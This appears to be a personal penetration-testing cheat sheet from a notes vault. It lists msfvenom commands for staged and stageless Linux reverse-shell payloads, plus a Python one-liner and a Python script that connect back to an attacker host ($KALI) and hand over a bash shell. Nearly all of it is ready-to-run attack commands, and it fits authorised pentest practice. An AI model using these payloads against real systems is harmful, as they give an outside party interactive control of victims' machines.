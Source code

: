 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

## MSFVenom 

Staged - Sends payload in stages, can be less stable.
	windows/meterpreter/reverse_tcp
	
Stageless - Sends exploit shellcode all at once, larger in size, won't always work.
	windows/meterpreter_reverse_tcp
	https://duckduckgo.com

#### Staged Payloads - WILL NOT WORK WITH NC!
```bash - kali
msfvenom -p linux/x86/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell/reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Stageless Payloads
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse86.elf
```

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=443 -f elf > reverse64.elf
```

#### Python
```bash - kali
exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

#### Python file root execute
```bash - target
which bash
```

```python - target
#!/usr/bin/env python
import socket, os, pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$KALI",8003));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
